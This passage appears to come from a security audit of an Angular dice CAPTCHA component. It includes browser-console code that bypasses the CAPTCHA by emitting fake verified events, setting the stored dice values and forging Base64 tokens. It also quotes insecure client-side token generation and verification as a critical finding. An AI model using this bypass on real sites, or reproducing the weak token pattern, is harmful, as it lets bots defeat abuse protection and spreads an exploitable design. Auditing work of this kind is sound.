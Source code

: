 #### Exploitation Example

```javascript
// Attacker can bypass CAPTCHA in browser console:
const captchaComponent = document.querySelector('ngx-dice-captcha');
const componentInstance = ng.getComponent(captchaComponent);

// Method 1: Directly emit verified event
componentInstance.verified.emit({
  success: true,
  message: 'Bypassed!',
  token: 'fake-token-12345',
  timestamp: Date.now(),
});

// Method 2: Manipulate stored dice values
componentInstance.storedDiceValues.set([1, 1, 1]);
componentInstance.onVerificationRequested({ diceValues: [1, 1, 1], sum: 3 });

// Method 3: Decode and forge tokens
const fakeToken = btoa(
  JSON.stringify({
    sessionId: 'fake-session',
    timestamp: Date.now(),
    salt: 'fake-salt',
  })
);
```

**Impact:** Complete bypass of CAPTCHA protection. Bots can submit forms without any human interaction.

---

### 2. 🔴 **WEAK TOKEN GENERATION** (CRITICAL)

**Severity:** CRITICAL  
**CVSS Score:** 8.5 (High)

#### Description

Verification tokens use simple Base64 encoding without:

- Cryptographic signatures (HMAC, JWT)
- Server-side validation
- Expiration enforcement
- Replay attack prevention

#### Evidence

```typescript
// From captcha-validator.service.ts (line 350)
private generateVerificationToken(sessionId: string): string {
  const timestamp = Date.now();
  const random = Math.random().toString(36).substring(2, 15);
  const payload = `${sessionId}:${timestamp}:${random}`;

  // ❌ Base64 is NOT secure - easily decoded and forged
  return btoa(payload);
}

// Token verification is also client-side only (line 370)
verifyToken(token: string): { valid: boolean; sessionId?: string; timestamp?: number } {
  try {
    const decoded = atob(token); // ❌ Anyone can decode this
    const [sessionId, timestamp, random] = decoded.split(':');

```